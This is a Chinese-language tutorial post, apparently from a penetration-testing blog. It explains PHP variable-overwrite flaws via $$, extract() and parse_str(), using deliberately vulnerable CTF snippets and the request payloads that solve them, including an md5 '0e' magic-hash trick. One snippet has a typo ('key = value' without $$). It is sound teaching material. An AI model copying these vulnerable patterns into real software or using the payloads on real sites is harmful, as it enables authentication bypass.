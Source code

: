 ```yaml
---
title: php变量覆盖
top: false
cover: false
categories:
- 渗透测试
tags:
- 变量覆盖
abbrlink: 50639
date: 2020-08-18 09:30:00
keywords:
summary:
img:
password:
---
```




> 可以用自定义的参数值替换原有变量值的情况称为变量覆盖漏洞



## 场景

- $$使用不当
- extract()函数使用不当
- parse_str()函数使用不当
- import_request_variables()使用不当
- 开启了全局变量注册
- ... ... 





## 1. $$导致的变量覆盖

> 经常在foreach中出现



使用foreach来遍历数组中的值，然后再将获取到的数组键名作为变量，数组中的键值作为变量的值

```php
<?php
    
//?name=test
//output:string(4) “name” string(4) “test” string(4) “test” test

$name='thinking';

foreach ($_GET as $key => $value)
    $$key = $value;
    var_dump($key);
    var_dump($value);
    var_dump($$key);

echo $name;

?>

```

例题：

```php

<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")

    die("BugsBunnyCTF is here :p…");

if ( !isset($_POST["flag"]) )
    die($_403);

foreach ($_GET as $key => $value)
	key = value;

foreach ($_POST as $key => $value)
    $$key = $value;

	if ( $_POST["flag"] !== $flag )
		die($_403);

	echo "This is your flag : ". $flag . "\n";

	die($_200);

?>
```







## 2. extract()函数导致的变量覆盖

**extract()** 该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。 

**语法：** `extract(array,extract_rules,prefix)`

```bash
extract 有三种形式可能导致变量覆盖:
第一种是第二个参数为EXTR_OVERWRITE,他表示如果有冲突，覆盖原有的变量。
第二种情况是只传入第一个参数，默认为EXTR_OVERWRITE模式。
第三种是第二个参数为EXTR_IF_EXISTS，他表示在当前符号表中已有同名变量时，覆盖它们的值,其他的都不注册新变量.
```



例题1

```php
<?php
$flag = 'xxx';
extract($_GET);

if (isset($gift)) {
   $content = trim(file_get_contents($flag));
   if ($gift == $content) {
       echo 'hctf{…}';
   } else {
        echo 'Oh..';
   }
} 
?>

    
    
//GET请求 ?flag=&gift=，extract()会将$flag和$gift的值覆盖了，将变量的值设置为空或者不存在的文件就满足$gift == $content。
//payload:
?flag=&gift=
```



例题2

```php
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
      <?php
        extract($_POST);
        if ($pass == $thepassword_123) { ?>
            <div class=”alert alert-success”>
                <code><?php echo $theflag; ?></code>
            </div>
        <?php } ?>
    <?php } ?>
    
    
//extract($_POST)会将POST的数据中的键名和键值转换为相应的变量名和变量值，利用这个覆盖$pass和$thepassword_123变量的值，从而满足$pass == $thepassword_123这个条件。
    
// POST Payload:
//pass=&thepassword_123=    
```











## 3. parse_str函数导致的变量覆盖

parse_str() 函数用于把查询字符串解析到变量中，如果没有array 参数，则由该函数设置的变量将覆盖已存在的同名变量。 

语法：`parse_str(string,array)`



例题1：

```php
<?php
error_reporting(0);

if (empty($_GET['id'])) {
    show_source(__FILE__);
    die();

} else {
    include ('flag.php');
    $a = "www.OPENCTF.com";
    $id = $_GET['id'];
    @parse_str($id);
    if ($a[0] != 'QNKCDZO' && md5($a[0]) == md5('QNKCDZO')) {
        echo $flag;
    } else {
        exit('其实很简单其实并不难！');
    }
}
?> 
    
    
//0e123会被当做科学计数法，0 * 10 x 123。所以需要找到一个字符串md5后的结果是0e开头后面都是数字的，如，240610708，s878926199a  
//利用php弱语言特性,
    
//使用GET请求id=a[0]=240610708，这样会将a[0]的值覆盖为240610708，然后经过md5后得到
0e462097431906509019562988736854
与md5(‘QNKCDZO’)的结果0e830400451993494058024219903391比较都是0
所以相等，满足条件，得到flag。
最终PAYLOAD： 
GET DATA: 
?id=a[0]=s878926199a 
or 
?id=a[0]=240610708
```















